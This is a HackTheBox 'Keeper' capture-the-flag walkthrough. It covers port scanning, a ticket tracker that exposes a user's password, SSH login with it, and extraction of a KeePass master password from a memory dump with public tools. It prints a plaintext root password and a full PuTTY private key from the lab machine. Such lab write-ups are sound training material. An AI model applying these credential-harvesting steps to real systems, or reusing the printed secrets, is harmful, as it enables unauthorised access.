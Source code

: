 ```yaml
---
title: "Keeper"
date: 2023-12-30
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "htb writeup", "htb walkthrough", "hackthebox", "keeper", "writeup"]
---
```


# Keeper

# Enumeration
# TCP
```sh
Nmap scan report for 10.10.11.227
Host is up, received user-set (0.017s latency).
Scanned at 2024-06-29 09:28:14 AEST for 16s
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKHZRUyrg9VQfKeHHT6CZwCwu9YkJosNSLvDmPM9EC0iMgHj7URNWV3LjJ00gWvduIq7MfXOxzbfPAqvm2ahzTc=
|   256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBe5w35/5klFq1zo5vISwwbYSVy1Zzy+K9ZCt0px+goO
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
# UDP
```sh
sudo nmap -sU --top-ports 20 -sV -oA nmap-udp-20ports-scripts 10.10.11.227

PORT      STATE         SERVICE      VERSION
53/udp    closed        domain
67/udp    closed        dhcps
68/udp    open|filtered dhcpc
69/udp    closed        tftp
123/udp   closed        ntp
135/udp   closed        msrpc
137/udp   closed        netbios-ns
138/udp   closed        netbios-dgm
139/udp   closed        netbios-ssn
161/udp   closed        snmp
162/udp   closed        snmptrap
445/udp   closed        microsoft-ds
500/udp   closed        isakmp
514/udp   closed        syslog
520/udp   closed        route
631/udp   closed        ipp
1434/udp  closed        ms-sql-m
1900/udp  closed        upnp
4500/udp  closed        nat-t-ike
49152/udp closed        unknown
```
# 80-HTTP
![screenshot](/assets/images/keeper1.png)
-> redirects to `http://tickets.keeper.htb/rt/`

add to `/etc/hosts`
![screenshot](/assets/images/keeper2.png)

```text
http-vuln-cve2011-3192: 
|   VULNERABLE:
|   Apache byterange filter DoS
|     State: VULNERABLE
|     IDs:  BID:49303  CVE:CVE-2011-3192
|       The Apache web server is vulnerable to a denial of service attack when numerous
|       overlapping byte ranges are requested.
|     Disclosure date: 2011-08-19
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-3192
|       https://seclists.org/fulldisclosure/2011/Aug/175
|       https://www.securityfocus.com/bid/49303
|_      https://www.tenable.com/plugins/nessus/55976
```
-> DoS

# Gobuster
```sh
gobuster dir -u http://10.10.11.227 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -o gobusteroutput
```

# tickets.keeper.htb/rt
![screenshot](/assets/images/keeper3.png)

- Request tracker 4.4.4+dfsg-2ubuntu1

![screenshot](/assets/images/keeper4.png)

![screenshot](/assets/images/keeper5.png)

![screenshot](/assets/images/keeper6.png)

SSH as `lnorgaard` with the credentials found in the request tracker user page. 

# Credentials
| Username  | Password     | Hash | Source |
| --------- | ------------ | ---- | ------ |
| lnorgaard | Welcome2023! |      |        |

![screenshot](/assets/images/keeper7.png)

There is an interesting file `RT30000.zip` in the user's home directory. 
The zip file contains the followings:
- `passcodes.kdbx`
- `KeePassDumpFull.dmp`

https://github.com/matro7sh/keepass-dump-masterkey

![screenshot](/assets/images/keeper8.png)

Inorgaard med

https://github.com/vdohney/keepass-password-dumper

Install .NET https://learn.microsoft.com/en-us/dotnet/core/install/linux-debian
```sh
wget https://packages.microsoft.com/config/debian/12/packages-microsoft-prod.deb -O packages-microsoft-prod.deb
sudo dpkg -i packages-microsoft-prod.deb
rm packages-microsoft-prod.deb

sudo apt-get update && \
  sudo apt-get install -y dotnet-sdk-6.0
```
- The exploit runs on `dotnet-sdk-6.0`

Installing the exploit
```sh
git clone https://github.com/vdohney/keepass-password-dumper.git
cd keepass-password-dumper
dotnet run /path/to/KeePassDumpFull.dmp
```

![screenshot](/assets/images/keeper9.png)

https://github.com/z-jxy/keepass_dump

![screenshot](/assets/images/keeper11.png)
```text
dgrd med flde
```
Searching for this gives

```text
rødgrød med fløde
```
# unlock keepass
```sh
show -f 0 
```

![screenshot](/assets/images/keeper13.png)

![screenshot](/assets/images/keeper12.png)

```sh
Title: keeper.htb (Ticketing Server)
Uname: root
 Pass: F4><3K0nd!
  URL: 
Notes: PuTTY-User-Key-File-3: ssh-rsa
       Encryption: none
       Comment: rsa-key-20230519
       Public-Lines: 6
       AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
       8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
       EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
       Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
       FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
       LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
       Private-Lines: 14
       AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
       oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
       kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
       f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
       VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
       UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
       OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
       in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
       SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
       09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
       xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
       AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
       AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
       NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
       Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```

save this output to a file removing whitespaces
![screenshot](/assets/images/keeper14.png)
# Generate the private SSH key for the root user
```sh
puttygen keeper-root -O private-openssh -o id_rsa
```

![screenshot](/assets/images/keeper15.png)

-> cannot ssh as root 

```sh
ssh root@keeper.htb id_rsa 
```
Connection refused


